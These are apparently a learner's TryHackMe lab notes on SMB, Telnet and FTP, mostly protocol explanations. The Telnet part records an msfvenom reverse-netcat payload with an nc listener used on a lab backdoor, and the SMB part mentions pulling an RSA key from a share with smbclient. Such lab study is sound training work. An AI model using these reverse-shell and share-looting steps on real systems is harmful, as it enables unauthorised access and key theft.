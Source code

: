 Try hack me notes 

Network services room

SMB -  SERVER MESSAGE BLOCK PROTOCOL -> a client-server communication protocol used for sharing access to files, printers,serial ports, and other resources on a network.

Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network. Client computers may have their own hard disks, but they also want access to the shared file systems and printers on the servers.

The SMB protocol is known as a response-request protocol, meaning that it transmits multiple messages between the client and server to establish a connection. Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

Once everything is connected SMB allows one to do anything u can with a file system over the network. which is good for shared drives. SMB runs on windows 95 and SAMBA (UNIX)

using smbclient //[ip]/[share] i was able to connect into the share and grab the RSA KEY. i was also able to look at info in the share. Enum4linux is a great tool for enumerating smb shares. This helped in finding a share to log into.


What is Telnet?

Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.

The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

Replacement

Telnet sends all messages in clear text and has no specific security mechanisms. Thus, in many applications and services, Telnet has been replaced by SSH in most implementations.
 
How does Telnet work?

The user connects to the server by using the Telnet protocol, which means entering "telnet" into a command prompt. The user then executes commands on the server by using specific Telnet commands in the Telnet prompt. You can connect to a telnet server with the following syntax: "telnet [ip] [port]"

in this exercise we had to exploit a telnet backdoor that we had to exploit using a reverse shell.
using sudo tcpdump ip proto \\icmp -i ens5 and ping [local THM ip] -c 1 to listen for pings we found out that you can run commands through the backdoor so we generated a payload for a reverse shell. msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R this is the command tto generate the shell and with using nc -lvp 4444 this listened for the payload to be activated which gave us remote access into the machine.


What is FTP?

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

How does FTP work?

A typical FTP session operates using two channels:
a command (sometimes called the control) channel
a data channel.
As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.
